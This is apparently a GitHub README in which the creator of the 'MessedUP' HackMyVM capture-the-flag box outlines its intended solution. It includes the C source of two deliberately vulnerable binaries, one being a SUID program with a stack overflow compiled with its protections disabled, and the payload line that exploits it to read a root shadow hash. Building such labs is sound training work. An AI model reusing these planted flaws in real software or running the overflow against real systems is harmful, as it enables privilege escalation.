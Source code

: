 **Dated:** 12 Jan 2021

**Solution** for the **MessedUP** linux box -  I made for **HackMyVM** site ~ Made and tested in VMWare Workstation
> 1. Avoid rabbit holes
> 1. Connect to FTP (port 8080) as anon user and download/read the file
> 1. Connect to tftp and download 125.zip file
> 1. Extract it (script below)
> 1. Portknocking sequence revelaed (8721, 45000, 9191)
> 1. Enumerate the webserver (port 65,000)
> 1. Try running gobuster against it
> 1. Any useful directory found ??? (yes, found -> projects)
> 1. /projects/index.php (Upload Media Center)
> 1. What about arbitary file upload vulnerability for getting RCE / Rev Shell? (uploaded_files)
> 1. Exploit passwordstrength binary (location: /usr/bin/passwordStrengthApp.exe) and then overspill binary (/home/skinny/.reload)
> 1. Become root 

**Name: passwordstrength app**\
On Kali box create vulnerable application by running: `gcc -m32 passwordstrength.c -o passwordstrength.exe`\
Copy the `.exe` to `Debian10 - 32bit`\
Chown it to skinny:skinny & allow all to READ/EXECUTE this.
```c
#include<stdio.h>
#include<string.h>
#include <unistd.h>
#include <stdlib.h>
#include <time.h>

int main ()
{
char *str = NULL;
FILE * fPtr;

printf("Welcome to ***Password Strength Assessment*** Application v01 \nDesigned by: https://grumpygeekwrites.wordpress.com\n");

fPtr = fopen("3l3.txt", "r");

if(fPtr == NULL)
	    {
	 /* Unable to open file hence exit */
	printf("Unable to open file.\n");
	printf("Please check whether file exists and you have read privilege.\n");
	exit(EXIT_FAILURE);	
	    }

else
{
char c;
while((c=fgetc(fPtr))!=EOF)
{
	 printf("%c",c);
}

        fclose(fPtr);
}

printf("\nPlease enter input:");

scanf("%ms",&str);
  
if (str) 
	{
	printf("Your input was:%s\n",str);
	free(str);
	printf("-_____- Hmmmm let me analzye this -_____- \n");
	sleep(1.25);
	int loop=0;
	int upper=15;
	int lower=3;
	int runtime=0;
	srand(time(0));
	runtime=(rand() % (upper - lower + 1)) + lower;
	for (loop=0;loop<=runtime;loop++)
		{
		printf("\nIam tired, let me sleep please **__** %d",loop);
	       	printf("\nAhhh I hate being ... Ahhhhhhhhh, stop it");
		printf("\nLet me try again ... Although I dont have any energy\n\n");	
		}
	
	printf("Iam going off now, sorry to disappoint you ¯_(ツ)_/¯¯_(ツ)_/¯¯_(ツ)_/¯, will try someother time\n");	
	}

else if (str == "I have a laptop and computer in year2020")
	{
	printf("\n WoW!!! here are some of the notes of 'grumpygeek' regarding passwords");
	printf("\nworstpasswordexamples");
	printf("\nweakpassword 1->  password");
	printf("\nweakpassword 2-> newbie");
	printf("\nweakpassword 3-> KBQWW2LTORQW4CQ=");
	printf("\nweakpassord 4-> MNZGSY3LMV2AU===");

	printf("\ngoodpasswordexamples");
	printf("\nstrongpassword 1-> N.CagewasInConAirMovie");
	printf("\nstrongpassword 2-> KNUG6YLJMJAWW2DUMFZDCMBQL5RG653MONDGC43UBI======");
	printf("\nstrongpassword 3-> NFYHA43FMMXHE33DNNZQ====");
	printf("\nstrongpassword 4-> Pakistani Mangoes are great in taste");
	}

else
	{
	printf("Give me some input please, I am not an idiot :-/");
	}
  return 0;
}
```
**Solution**
> 1. strings passwordstrength.exe
> 1. try base32 decoding strings as one of them is a valid password for user skinny.


**Name: overspill app**\
On Kali box create vulnerable application by running: `gcc -fno-stack-protector -z execstack -no-pie -m32 -mpreferred-stack-boundary=2 overspill.c -o overspill.obj`\
Copy the `overspill.obj` to `Debian10 - 32bit`\
Chown it to root:root & give set the SUID bit set.\
"shadow_backup_sensitiveFile" will have the SHA512 hash of root.

```c
#include <stdio.h>                                                                                                                                          
#include <string.h>                                                                                                                                         
#include <stdlib.h>                                                                                                     
#include <sys/types.h>                                                                                                            
#include <unistd.h>                                                                                                                                         
                                
int main()                                                                                                                        
{                                                                             
int temp=0;                            
char userinput[23];                                                                                                                                         
printf("\n*** Welcome to Overspill software v2.0 ~ by MicrooSooft (° ʖ °)*** \n");                                                                                                                   
printf("\nCreation date: ~19Nov2020");                                                           
printf("\nPlease enter your input:");                                                                                                                       
scanf("%s",&userinput);                    
printf("Your input was -> %s\nNice Input, I liked it\nByeBye (｡◕‿◕｡)\n",userinput);                                                                                           


return 0;                                       
}                                               

void read_sensitive_file(void)                                                                   
{                                               
        printf("\nWTF!!! How the hell, did you get into this secret function\n");                                                                                                                  
        setuid(0);                                     
        setgid(0);                                     

        system("/bin/cat shadow_backup_sensitiveFile");
}
```

**Solution**
> 1. strings overspill.obj (can be skipped)
> 1. readelf -s ./overspill.obj | grep read (notedown the address)
> 1. inside python ---> import pwn; pwn.p32(0x<the address); 
> 1. the above command will convert the address into little endian.
> 1. python -c 'print("A"*35+"<Little Endian HEX address of read_sensitive_file")' | ./overspill.obj

**Name: createZIP.py**
```python
import os
import time

loop=0;

while loop <= 125:
    loop_value = str(loop)
    filename = loop_value+'.zip'

    if (loop == 0):
        os.system("zip " +filename+ " notes.txt")

    else:
        time.sleep(1)
        previous_value = loop - 1
        previous_value = str(previous_value)+".zip"
        os.system("zip " +filename+" "+previous_value)
        os.system("rm " +previous_value)

    loop=loop+1
```

**Name: ZIPextractor.py**
```python
import os;
import time;
loop = 125

while loop >= 0:
    time.sleep(0.1)
    filename=str(loop)+'.zip'
    os.system("unzip "+filename)
    os.system("rm "+filename)
    loop = loop -1
```
